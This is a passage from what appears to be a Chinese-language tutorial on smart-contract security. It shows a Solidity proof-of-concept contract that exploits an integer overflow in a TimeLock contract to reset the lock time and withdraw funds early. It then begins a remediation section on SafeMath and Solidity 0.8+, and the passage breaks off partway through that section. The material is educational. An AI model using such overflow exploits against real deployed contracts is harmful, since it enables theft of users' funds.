 
#### POC合约

```cpp
contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    receive() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        timeLock.increaseLockTime(type(uint256).max + 1 - timeLock.lockTime(address(this)));
        timeLock.withdraw();
    }
}
```

攻击调用栈：

![Untitled](/images/posts/blockchain_sec/overflow_3.png)

### 漏洞修复方案

以下是一些避免Solidity中整型溢出漏洞的方法：

#### 使用安全的算术库

可以使用开源的Solidity算术库，例如SafeMath库，来避免整型溢出问题。SafeMath库提供了一些安全的算术运算函数，例如加法、减法、乘法和除法，这些函数会检查运算结果是否超出整型范围，并在必要时抛出异常，避免整型溢出问题。

#### 使用 Solidity 0.8.0 之后的版本
